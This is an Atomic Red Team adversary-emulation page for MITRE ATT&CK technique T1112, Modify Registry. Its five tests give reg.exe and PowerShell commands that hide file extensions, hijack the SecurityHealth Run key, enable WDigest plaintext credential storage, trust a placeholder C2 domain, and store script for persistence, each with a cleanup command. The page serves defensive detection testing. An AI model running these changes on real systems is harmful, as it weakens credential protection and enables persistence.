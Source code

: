 # T1112 - Modify Registry

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1112)

<blockquote>Adversaries may interact with the Windows Registry to hide configuration information within Registry keys, remove information as part of cleaning up, or as part of other techniques to aid in Persistence and Execution.

Access to specific areas of the Registry depends on account permissions, some requiring administrator-level access. The
built-in Windows command-line utility [Reg](https://attack.mitre.org/software/S0075) may be used for local or remote
Registry modification. (Citation: Microsoft Reg) Other tools may also be used, such as a remote access tool, which may
contain functionality to interact with the Registry through the Windows API (see examples).

Registry modifications may also include actions to hide keys, such as prepending key names with a null character, which
will cause an error and/or be ignored when read via [Reg](https://attack.mitre.org/software/S0075) or other utilities
using the Win32 API. (Citation: Microsoft Reghide NOV 2006) Adversaries may abuse these pseudo-hidden keys to conceal
payloads/commands used to establish Persistence. (Citation: TrendMicro POWELIKS AUG 2014) (Citation: SpectorOps Hiding
Reg Jul 2017)

The Registry of a remote system may be modified to aid in execution of files as part of Lateral Movement. It requires
the remote Registry service to be running on the target system. (Citation: Microsoft Remote)
Often [Valid Accounts](https://attack.mitre.org/techniques/T1078) are required, along with access to the remote
system's [Windows Admin Shares](https://attack.mitre.org/techniques/T1077) for RPC communication.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify Registry of Current User Profile - cmd](#atomic-test-1---modify-registry-of-current-user-profile---cmd)

- [Atomic Test #2 - Modify Registry of Local Machine - cmd](#atomic-test-2---modify-registry-of-local-machine---cmd)

- [Atomic Test #3 - Modify registry to store logon credentials](#atomic-test-3---modify-registry-to-store-logon-credentials)

- [Atomic Test #4 - Add domain to Trusted sites Zone](#atomic-test-4---add-domain-to-trusted-sites-zone)

- [Atomic Test #5 - Javascript in registry](#atomic-test-5---javascript-in-registry)

<br/>

## Atomic Test #1 - Modify Registry of Current User Profile - cmd

Modify the registry of the currently logged in user using reg.exe via cmd console. Upon execution, the message "The
operation completed successfully."
will be displayed. Additionally, open Registry Editor to view the new entry in
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced.

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /t REG_DWORD /v HideFileExt /d 1 /f
```

#### Cleanup Commands:

```cmd
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v HideFileExt /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #2 - Modify Registry of Local Machine - cmd

Modify the Local Machine registry RUN key to change Windows Defender executable that should be ran on startup. This
should only be possible when
CMD is ran as Administrative rights. Upon execution, the message "The operation completed successfully."
will be displayed. Additionally, open Registry Editor to view the modified entry in
HKCU\Software\Microsoft\Windows\CurrentVersion\Run.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| new_executable | New executable to run on startup instead of Windows Defender | string | calc.exe|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run /t REG_EXPAND_SZ /v SecurityHealth /d #{new_executable} /f
```

#### Cleanup Commands:

```cmd
reg delete HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run /v SecurityHealth /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #3 - Modify registry to store logon credentials

Sets registry key that will tell windows to store plaintext passwords (making the system vulnerable to clear text /
cleartext password dumping).
Upon execution, the message "The operation completed successfully." will be displayed.
Additionally, open Registry Editor to view the modified entry in
HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest.

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f >nul 2>&1
```

<br/>
<br/>

## Atomic Test #4 - Add domain to Trusted sites Zone

Attackers may add a domain to the trusted site zone to bypass defenses. Doing this enables attacks such as c2 over
office365.
Upon execution, details of the new registry entries will be displayed.
Additionally, open Registry Editor to view the modified entry in HKCU:
\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\.

https://www.blackhat.com/docs/us-17/wednesday/us-17-Dods-Infecting-The-Enterprise-Abusing-Office365-Powershell-For-Covert-C2.pdf

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bad_domain | Domain to add to trusted site zone | String | bad-domain.com|

#### Attack Commands: Run with `powershell`!

```powershell
$key= "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\#{bad_domain}\"
$name ="bad-subdomain"
new-item $key -Name $name -Force
new-itemproperty $key$name -Name https -Value 2 -Type DWORD;
new-itemproperty $key$name -Name http  -Value 2 -Type DWORD;
new-itemproperty $key$name -Name *     -Value 2 -Type DWORD;
```

#### Cleanup Commands:

```powershell
$key = "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap\Domains\#{bad_domain}\"
Remove-item  $key -Recurse -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #5 - Javascript in registry

Upon execution, a javascript block will be placed in the registry for persistence.
Additionally, open Registry Editor to view the modified entry in HKCU:
\Software\Microsoft\Windows\CurrentVersion\Internet Settings.

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!

```powershell
New-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name T1112 -Value "<script>"
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name T1112 -ErrorAction Ignore
```

<br/>
